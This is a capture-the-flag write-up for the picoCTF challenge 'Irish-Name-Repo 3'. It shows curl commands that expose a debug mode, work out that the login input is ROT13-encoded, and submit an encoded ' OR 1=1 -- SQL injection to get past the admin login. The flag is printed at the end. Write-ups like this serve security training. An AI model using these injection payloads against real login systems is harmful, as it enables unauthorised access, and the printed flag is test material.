


# Irish-Name-Repo 3

## Description

> There is a secure website running at [Link](https://jupiter.challenges.picoctf.org/problem/40742/).Try to see if you can login as admin!

## Hints

> Seems like the password is encrypted.

## Write-Up

When accessing a website, we can find a list of profiles displayed in the page : 


When we open this site, we see the content of the main page is not very helpful. When we look at the Support page however, we see an inquiry saying `Hi. I tried adding my favorite Irish person, Conan O'Brien. But I keep getting something called a SQL Error`. This tells us that the site uses a SQL database.

In the menu, we can see that there is a admin login portal. Let's explore it and see what is hides.


It seems like it is a normal login portal, but this time there is only :



Let's curl it to get the action route and name fields (we can check those in the console as well) :




```
└─$ curl 'https://jupiter.challenges.picoctf.org/problem/40742/login.html'
<!doctype html>
<html>
<head>
    <title>Login</title>
    <link rel="stylesheet" type="text/css" href="//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <div class="panel panel-primary" style="margin-top:50px">
                <div class="panel-heading">
                    <h3 class="panel-title">Admin Log In</h3>
                </div>
                <div class="panel-body">
                    <form action="login.php" method="POST">
                        <fieldset>
                            <div class="form-group">
                                <label for="password">Password:</label>
                                <div class="controls">
                                    <input type="password" id="password" name="password" class="form-control">
                                </div>
                            </div>
                            <input type="hidden" name="debug" value="0">

                            <div class="form-actions">
                                <input type="submit" value="Login" class="btn btn-primary">
                            </div>
                        </fieldset>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
</body>
</html>

```

Let's to submit some random value and see what happens (let's use the debug value to see what's happening) :


```
curl 'https://jupiter.challenges.picoctf.org/problem/40742/login.php' --X POST --data "password=fdsadsda&debug=1"
```

```html
<pre>password: fdsadsda
SQL query: SELECT * FROM admin where password = 'sqfnqfqn'
</pre><h1>Login failed.</h1>
```

As we can see, the login system is vulnerable to **SQL Injections**, let's try to make a basic injection in the password what it does (let's use the debug value to see what's happening) :

```
curl 'https://jupiter.challenges.picoctf.org/problem/40742/login.php' --X POST --data "password=' OR 1=1 -- &debug=1"
```

```html
<pre>password: ' OR 1=1 -- 
SQL query: SELECT * FROM admin where password = '' BE 1=1 -- '
</pre>
```

Weird, as the `OR` operator was changed to become `BE` string, which in this case generate and SQL error and don't give us a result. To solve that, le'ts first see how the characters are being **encryoted** :

```
└─$ curl 'https://jupiter.challenges.picoctf.org/problem/40742/login.php' --X POST --data "password=' ABCDEFGHIJKLMNOPQRSTUVWXYZ &debug=1"
```

```html
<pre>password: ' ABCDEFGHIJKLMNOPQRSTUVWXYZ 
SQL query: SELECT * FROM admin where password = '' NOPQRSTUVWXYZABCDEFGHIJKLM '
</pre>
```

So, correcting the injection is only finding the correct plaintext characters that gives us the `OR` operator, in other words, **decrypt** the operator.

In this case is `BE` (same as the encryption):

```
└─$ curl 'https://jupiter.challenges.picoctf.org/problem/40742/login.php' --X POST --data "password=' BE 1=1 -- &debug=1"
```

```html
<pre>password: ' BE 1=1 -- 
SQL query: SELECT * FROM admin where password = '' OR 1=1 -- '
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}</p>
```

## Flag

picoCTF{3v3n_m0r3_SQL_4424e7af}

## More Information

 - SQL Injection : https://www.w3schools.com/sql/sql_injection.asp 
